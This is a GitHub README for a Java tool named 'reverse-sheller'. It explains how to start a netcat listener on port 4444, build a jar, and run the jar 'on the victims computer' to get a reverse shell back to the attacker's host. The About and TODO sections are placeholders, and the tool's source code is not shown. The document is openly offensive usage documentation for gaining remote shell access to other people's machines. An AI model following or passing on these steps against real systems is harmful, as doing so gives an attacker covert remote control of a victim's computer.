 # reverse-sheller

## Build and execute this .jar on target machine with JDK11 or above to get a reverse shell from your host.

![Reverse shell terminal picture](imgs/reverse-shell-picture.jpg)

## Table of Contents

* [Usage 💡](#usage)
* [About 💁📙](#about)
* [TODO 📝](#todo)
* [Author 👷](#author)

## Usage 💡 <a name="usage"></a>

1) Open server waiting for client connection. From this terminal you will be able to execute reverse shell commands:

```bash
nc -lvnp 4444
```

2) Build `.jar` using:

```bash
./gradlew build
```

3) Grab the `.jar` from `./src/client/build/libs` and execute it on the victims computer using:

```bash
java -jar <filename.jar> 127.0.0.1 4444
```

(Requirement: JDK8 or higher needs
to be installed on victims computer, and JAVA_HOME variable needs to be pointing to working JDK instance)

## About 💁📙 <a name="about"></a>

...
...

## TODO 📝 <a name="todo"></a>

Things that need to be done:

1) Server implementation
2) ...
3) ...
   ...

![README ending picture](imgs/readme-ending-picture.jpg)

## Author 👷 <a name="author"></a>

Drop me a line at: rojberr@outlook.com 